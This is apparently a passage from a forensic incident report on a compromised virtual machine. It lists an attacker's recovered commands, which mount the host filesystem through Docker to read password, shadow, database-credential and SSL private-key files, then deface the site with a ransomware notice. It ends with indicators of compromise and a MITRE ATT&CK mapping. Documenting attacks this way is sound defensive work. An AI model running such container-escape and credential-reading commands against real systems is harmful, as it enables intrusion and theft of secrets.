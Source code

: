 - `docker run --rm  -v /:/mnt busybox cat /mnt/etc/passwd`
- `docker run --rm  -v /:/mnt busybox cat /mnt/etc/shadow`
- `docker run --rm  -v /:/mnt busybox cat /mnt/etc/mysql/debian.cnf /mnt/etc/mysql/my.cnf`
- `docker run --rm  -v /:/mnt busybox cat /mnt/etc/ssl/private/\\*`
- `docker run --rm  -v /:/mnt busybox cat /mnt/var/log/\\*`
- `docker run --rm  -v /:/mnt busybox cat /var/lib/docker/containers/1bc8170248006261556c8e9316704cdef21d3ea03d5ebdca439a4043dfb15b25/1bc8170248006261556c8e9316704cdef21d3ea03d5ebdca439a4043dfb15b25-json.log`
- `/login` sucessfull admin login
- `/upload` uploads the ransomware notice.
- ` echo "<body bgcolor="black"><center><img src="/static/gallery/bg.png"></center></body>" > /app/templates/index.html` sets the page as the ransomware png.
- `docker restart app` restart the website container so the initial page changes take effect

It is unclear wether the RSA keys were used to gain external access to the machine although unlikely.

## Indicators of Compromise

IOCs refer to data that indicates a system may have been infiltrated by a cyber threat. They provide cybersecurity teams with crucial knowledge after there has been a breach of data or another breach in security. These indicators can reveal that an attack has happened, what tools were used in the attack, and who’s behind them. They are typically collected from software, including antivirus and antimalware systems.

The attacker left some traces throughout the attack to the VM and during the forensic analysis there were some common indicators of compromise, for exemple:
- High authentication failures: In account takeovers, attackers use automation to authenticate using phished credentials. A high rate of authentication attempts might indicate than someone has stolen credentials and is attempting to find an account that gives access to the network. Mainly caused by the dictionary attack.
- Lots of requests on important files: Without a high-privileged account, an attacker is forced to explore different resources and find the right vulnerability to access files.
- Suspicious configuration changes: You may not even know, but changing configurations on files, servers, and devices could give the attacker a second backdoor to the network. Changes could also add vulnerabilities for malware to exploit.
- Unusual outbound network traffic: When an intruder tries to extract data from your network or when an infected system relays information to a command-and-control server, unusual outbound network traffic may be detected.

## Attack matrix

This was based on [Mitree attack matrix](https://attack.mitre.org/matrices/enterprise/linux/)
The details on the context of these matrix elements are omited for better readability.
Please refer to the remaining of the report for better context and details.

The initial access was made via [exploit of public facing application (T1190)](https://attack.mitre.org/techniques/T1190/).

The execution is a mix of [python command and scripting interpreter (T1059.006)](https://attack.mitre.org/techniques/T1059/006/) and [scheduled task/job: CRON (T1053.003)](https://attack.mitre.org/techniques/T1053/003/).
